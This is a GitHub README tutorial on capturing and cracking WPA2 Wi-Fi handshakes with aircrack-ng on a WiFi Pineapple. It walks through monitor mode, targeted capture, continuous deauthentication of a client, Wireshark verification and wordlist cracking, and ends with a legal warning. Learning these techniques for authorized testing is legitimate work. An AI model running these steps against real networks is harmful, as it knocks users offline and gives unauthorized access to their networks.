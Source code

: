 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>
![Setup](Images/airodump.png)


  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>
![Setup](Images/enable_5g.png)


  5. Capture traffic 5GHz band
     <pre lang="markdown">airodump-ng &lt;interface&gt --channel 48</pre>

### Terminal-2

  6. select target and focus on one AP on channel:
<pre lang="markdown">airodump-ng -c &lt;channel&gt; -w &lt;filename&gt; -d &lt;AP_BSSID&gt; &lt;interface&gt;</pre>

### Example:

<pre lang="markdown">airodump-ng -c2 -w capture_wpa2 -d 00:11:22:33:44:55 wlan3mon</pre>

### Explanation:
- **`-c 2`** → Specifies the Wi-Fi channel (replace with your target AP’s channel).
- **`-w capture_wpa2`** → Defines the output filename (`capture_wpa2.cap`).
- **`-d 00:11:22:33:44:55`** → Filters by target AP’s BSSID.
- **`wlan3mon`** → Your network interface in monitor mode.

Once executed, the `.cap` file will be created, which can be used for further analysis.

  ![Setup](Images/airodump_target.png)

### Terminal-3
  7. Send deauthentication packets to the target
     
<pre lang="markdown">aireplay-ng --deauth 0 -a &lt;BSSID/AP's MAC&gt; -c &lt;Target/Station MAC&gt; &lt;interface&gt;</pre>

  ![Setup](Images/deauth.png)

  As the packets are sent frames on the target increase until it get's disconnected
  ![Setup](Images/deauth_attack_in_progress.png)


  8. Capture handshake : it will be shown in the monitor if captured ! at Terminal-2.
  ![Setup](Images/captured_files.png)

  9. Now you got the handshake(terminal-2)
  10. Stop the process at terminal-2:
      >ctrl+c

### 🔍 Checking WPA2 Handshake in Wireshark
Once the handshake is captured, follow these steps to verify it:

#### Open the Captured File
Run the following command to open the `.cap` file in Wireshark:

```bash
wireshark capture_wpa2-01.cap
```

#### Apply a Filter
In Wireshark’s **filter bar**, enter the following filter and press **Enter**:

```plaintext
eapol
```

This filters out only **EAPOL (Extensible Authentication Protocol over LAN) packets**.

#### Verify the 4-Way Handshake
Look for **four EAPOL messages** exchanged between the client (station) and the AP (router):

- **Message 1** → Sent by AP to the client.
- **Message 2** → Client replies.
- **Message 3** → AP sends another message.
- **Message 4** → Final response from the client.

#### Confirm Success

- ✅ If **all 4 messages** are captured, you've successfully grabbed the handshake! 🎉
- ❌ If you see only **2 or 3 messages**, the handshake is incomplete, and you may need to retry.

![Setup](Images/wireshark.png)




## ⚠ Legal Warning
This script should **only** be used on networks you own or have **explicit permission** to test. Unauthorized use is a violation of **cybercrime laws**.


### 🔓 Cracking the WPA2 Handshake
Once you have successfully captured the WPA2 handshake, you can attempt to crack the password using `aircrack-ng`.

#### Run the Following Command
Use a wordlist to attempt the password crack:

```bash
aircrack-ng -w [wordlist.txt] -b [BSSID] capture_wpa2-01.cap
```

- `-w [wordlist.txt]`: Path to your dictionary file (e.g., `rockyou.txt`).
- `-b [BSSID]`: The target network’s MAC address.
- `capture_wpa2-01.cap`: The file containing the captured handshake.
![Setup](Images/aircrack_com.png)



#### Wait for the Results
If the password is in the wordlist, `aircrack-ng` will reveal it. If not, you may need a more extensive wordlist or other cracking techniques.

![Setup](Images/aircrack.png)


---



